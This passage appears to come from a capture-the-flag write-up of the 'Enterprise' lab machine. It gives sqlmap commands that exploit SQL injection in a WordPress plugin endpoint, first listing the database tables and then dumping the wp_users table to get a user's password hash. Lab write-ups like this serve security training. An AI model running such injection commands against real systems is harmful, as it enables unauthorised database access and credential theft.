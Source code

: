 ![](/Linux/Linux-Medium/Enterprise/Screenshots/databases.png)
The wordpress DB has 12 tables

```sh
sqlmap -u enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1 --batch -D wordpress --tables
```

![](/Linux/Linux-Medium/Enterprise/Screenshots/tables.png)

Dumping `wp_users` gives a hash for william.riker:

```sh
sqlmap -u enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1 --batch -D wordpress -T wp_users --dump
```
